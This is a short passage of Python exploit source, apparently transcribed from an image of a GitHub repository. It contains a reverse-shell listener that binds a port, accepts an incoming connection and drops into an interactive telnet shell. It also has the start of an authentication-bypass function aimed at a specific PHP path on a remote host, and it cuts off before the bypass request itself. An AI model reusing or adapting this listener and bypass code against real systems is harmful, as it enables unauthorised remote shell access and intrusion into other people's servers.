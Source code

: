```py
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Function to bypass the authentication
def authBypass(rhost):
    print("[+] Let's Bypass the Auth !! [+]")
    url = "http://%s:80/d5fa314e8577e3a7b8534a014b4dcb221de823ad/index.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
```